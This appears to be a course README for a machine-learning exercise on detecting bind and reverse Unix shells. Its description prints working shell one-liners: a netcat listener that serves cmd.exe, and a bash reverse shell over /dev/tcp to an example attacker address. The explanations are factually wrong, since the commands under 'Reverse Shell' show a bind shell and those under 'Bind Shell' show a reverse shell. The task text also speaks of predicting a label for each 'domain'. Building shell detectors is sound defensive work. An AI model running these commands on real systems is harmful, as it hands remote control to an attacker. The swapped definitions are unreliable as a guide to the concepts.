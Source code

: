 # ML_ITMO_lessons
Решение урока №2 курса ML в ИБ

**Overview**
Detecting bind/reverse shells
Welcome to the Bind/Reverse Shell Detection competition! This competition focuses on detecting bind/reverse Unix shells. Your task is to build a machine learning model that can distinguish between regular and bind/reverse shells.

**Goal**
The goal of this competition is to detect bind/reverse shells, which are often used for establishing a link between an attacker and a target machine
Participants will be provided with a dataset of Unix shells labeled as bind/reverse (1) or legitimate (0). Your task is to build a model that predicts the correct label for each domain in the test set.

**Description**
The use of bind or reverse shell is highly scenario-dependent:

# **Reverse Shell**:
When a target machine is behind a firewall or NAT, making it hard to initiate an inbound connection. The target machine will connect to the attacker's machine in this setup, hence bypassing the firewall restrictions.

This command is run on the target, 192.168.1.100
> nc -lvp 4444 -e cmd.exe
This command is run on the attacker, 192.168.1.50
> nc 192.168.1.100 4444

# **Bind Shell**:
Applicable when the attacker's machine is able to connect directly to the target machine. In that respect, the target machine is listening to some port for incoming connections, and control is given to the attacking machine upon connection to that port.
This command is run on the attacker, 10.0.0.5
> nc -lvnp 443
This command is run on the target, 192.168.1.100
> bash -i >& /dev/tcp/10.0.0.5/443 0>&1
